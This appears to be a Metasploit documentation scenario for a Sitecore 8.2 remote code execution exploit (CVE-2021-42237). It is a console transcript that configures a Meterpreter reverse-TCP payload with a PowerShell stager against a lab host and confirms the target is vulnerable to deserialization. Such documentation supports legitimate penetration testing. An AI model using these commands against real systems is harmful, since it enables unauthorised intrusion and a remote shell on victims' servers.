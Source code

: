 
## Options

## Scenarios

### Sitecore 8.2 rev. 180406 on Server 2016 - PowerShell Stager

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/cve_2021_42237[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/cve_2021_42237) > set LHOST 172.20.223.94
LHOST => 172.20.223.94
msf6 exploit(windows/http/cve_2021_42237) > set RHOSTS 172.20.211.198
RHOSTS => 172.20.211.198
msf6 exploit(windows/http/cve_2021_42237) > set VHOST NewInstance1
VHOST => NewInstance1
msf6 exploit(windows/http/cve_2021_42237) > show options

Module options (exploit/windows/http/cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     172.20.223.94    yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf6 exploit(windows/http/cve_2021_42237) > check
[*] 172.20.211.198:80 - The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
msf6 exploit(windows/http/cve_2021_42237) > set LPORT 8342
```